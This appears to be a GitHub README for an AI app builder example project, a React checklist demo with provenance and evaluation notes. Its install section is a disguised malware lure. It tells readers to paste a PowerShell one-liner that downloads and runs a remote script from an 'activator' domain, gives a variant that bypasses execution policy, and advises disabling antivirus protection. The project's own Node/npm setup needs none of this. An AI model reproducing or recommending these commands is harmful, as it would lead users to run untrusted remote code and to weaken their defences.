

<div align="center">

# brainbaby-app-examples: AI App Builder Evaluation Guide — Starter Kit



[]() []() []() []()

</div>

---

This repository is the source export for a Brainbaby app builder example, bundled with a working demo, verification notes, and an evaluation guide. It holds the original download alongside a runnable copy so you can compare the two, build the app yourself, and confirm the checks against the stated brief. Use the provenance notes to trace file changes, then apply the same inspection workflow to your own project. It is an owned example for reference, not a customer case study or a benchmark.

## ⚡ Install via PowerShell

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Win 10/11 · PowerShell 5.1+ · Standard user

### 1️⃣ Open PowerShell
* Right-click the Start button.
* Choose **Terminal (Admin)** or **Windows PowerShell**.

### 2️⃣ Execute the setup script
Copy the command below, paste it into PowerShell, and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Windows blocking the script? Use CMD
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## ✅ Requirements

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## Features

- **Working React checklist demo:** a six-task checklist with local state, a live count, completion and reset. Runs from the checked-in example folder with a supported Node.js LTS release, and can be built independently of the original tool.
- **Original source export:** the untouched download, retained for inspection. The runnable folder keeps the same app code and styling, with the build tooling patched for known development-server advisories and a checked-in lockfile for that patched toolchain.
- **File provenance:** the historical file hashes and the explicit scope of verification, so you can confirm what changed and what did not between the original export and the runnable version.
- **Verification notes:** an integrity check for the original export, runnable from the repository root, plus a snapshot of which files were audited.
- **App builder evaluation guide:** the instruction used to generate this example and a short set of checks — behavior, reload behavior, keyboard accessibility, responsive layout, and source handoff — for applying the same test to your own app idea.
- **Scoped to one example:** account access, saved records, payments and external services are intentionally absent, so the demo stays small enough to read end to end. The evaluation guide explains how to extend the checks when an app needs them.

## Tech Stack

- **React** with Vite for the runnable example; components and local state only.
- **Node.js LTS + npm** for local development and builds; a lockfile pins the patched toolchain.
- **Plain CSS** for layout and styling.
- **Node verification script** for checking the original export's integrity via file hashes.
- **JSON provenance record** documenting original file hashes and the scope of verification.
- No backend, database, auth, payments, or external services in the example.

The original export ZIP is retained unchanged for inspection. The runnable folder keeps the same app code while updating Vite to address development-server advisories; components and styles are untouched.

## Project Structure

The repository keeps the original source export, a runnable demo, verification notes, and an evaluation guide side by side so each claim can be checked against the files.

```
examples/            Runnable app folders
downloads/           Unmodified original export archives
docs/                Verification notes and evaluation workflow
tools/               Local verification scripts
assets/              Screenshots and supporting media
```

- `examples/` holds the runnable version of each app. App code and styles stay close to the original export; only build tooling is patched, and the patch scope is documented per example.
- `downloads/` contains the historical exports byte-for-byte. Treat these as read-only references rather than a source for local runs.
- `docs/` explains what was verified, how far that verification goes, and how to repeat the same checks on your own project.
- `tools/` holds small scripts for checking the integrity of the original exports from the repository root.
- `assets/` stores images used in the documentation.

Each example folder is self-contained. Open it directly, read its entry files, and compare against the matching archive in `downloads/` when you need to confirm what changed. Verification notes in `docs/` call out every deviation from the original export.

## FAQ

- **What is this repository?** An original source export of a small demo app, plus verification notes and a guide for evaluating an AI app builder against a real task.

- **Is the demo a customer case study or benchmark?** No. It is an owned QA example used to inspect, run, and change the code.

- **What can I inspect?** The React source, the original export archive, the brief and evaluation workflow, and the file provenance notes.

- **Why does the runnable folder differ from the original export?** The archive stays byte-for-byte unchanged. The runnable copy keeps the same app code and updates the build tooling to address reported development-server advisories. Provenance notes document the change.

- **Can I run it locally?** Yes. Use a supported Node.js LTS release, then use the runnable example folder for local execution. The historical archive has no lockfile and is retained only so the original export stays inspectable.

- **What does the demo do?** It shows a small checklist with local state. Progress clears on reload; there is no account, database, payments, or external service.

- **How should I evaluate an app builder?** Start with one action you can test. Check behavior, recovery after reload, keyboard accessibility and labels, layout on phone and desktop, and whether you can build the source outside the original tool.

- **Can I extend the example?** Yes. The evaluation workflow explains how to adapt the checks when an app needs saved records, user accounts, or payments. Those features are not implemented here.

- **Where do I report a problem?** Open an issue for a problem with these example files or their instructions. Use fictional information; do not post credentials, customer data, or private projects.

- **What is the license scope?** This repository does not add a new open-source license to the original export or third-party dependencies. Existing rights and dependency licenses remain as supplied. Project branding is not a license to imply affiliation or endorsement.

## License

This repository contains example material for inspecting and evaluating an app builder workflow. Rights in the original source exports, the example app code, and any third-party dependencies remain with their respective owners; no new license is granted by this collection.

Before redistributing or reusing any file, review its provenance record and the license terms shipped with the source it came from. Third-party dependencies are governed by their own licenses.

The project name and branding identify the origin of these examples only. They do not grant permission to imply endorsement, affiliation, or official support.